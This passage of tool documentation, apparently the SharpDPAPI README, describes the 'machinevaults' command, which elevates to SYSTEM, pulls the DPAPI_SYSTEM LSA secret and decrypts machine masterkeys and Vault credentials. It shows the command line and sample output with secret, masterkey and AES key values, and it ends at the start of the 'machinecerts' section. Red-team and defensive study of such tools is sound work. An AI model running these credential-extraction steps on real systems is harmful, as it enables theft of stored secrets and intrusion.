 
#### machinevaults

The **machinevaults** command will elevated to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. These keys are then used to decrypt any found machine Vaults.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).

 C:\Temp>SharpDPAPI.exe machinevaults

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.2.0


 [*] Action: Machine DPAPI Vault Triage

 [*] Elevating to SYSTEM via token duplication for LSA secret retrieval
 [*] RevertToSelf()

 [*] Secret : DPAPI_SYSTEM
 [*] full: DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF6C88CEFD23D0291FA9FE46899D4DE12A180E76C3
 [*] m/u : DBA60EB802B6C4B42E1E450BB5781EBD0846E1BF / 6C88CEFD23D0291FA9FE46899D4DE12A180E76C3

 [*] SYSTEM master key cache:

 {1e76e1ee-1c53-4350-9a3d-7dec7afd024a}:4E4193B4C4D2F0420E0656B5F83D03754B565A0C
 ...(snip)...


 [*] Triaging SYSTEM Vaults


 [*] Triaging Vault folder: C:\WINDOWS\System32\config\systemprofile\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

 VaultID : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
 Name : Web Credentials
 guidMasterKey : {0bd732d9-c396-4f9a-a69a-508632c05235}
 size : 324
 flags : 0x20000000 (CRYPTPROTECT_SYSTEM)
 algHash/algCrypt : 32782/26128
 description :
 aes128 key : 74CE3D7BCC4D0C4734931041F6D00D09
 aes256 key : B497F57730A2F29C3533B76BD6B33EEA231C1F51ED933E0CA1210B9E3A16D081

 ...(snip)...


#### machinecerts

The **machinecerts** command will elevated to SYSTEM to retrieve the DPAPI_SYSTEM LSA secret which is then used to decrypt any found machine DPAPI masterkeys. These keys are then used to decrypt any found machine system encrypted DPAPI private certificate keys.

Local administrative rights are needed (so we can retrieve the DPAPI_SYSTEM LSA secret).
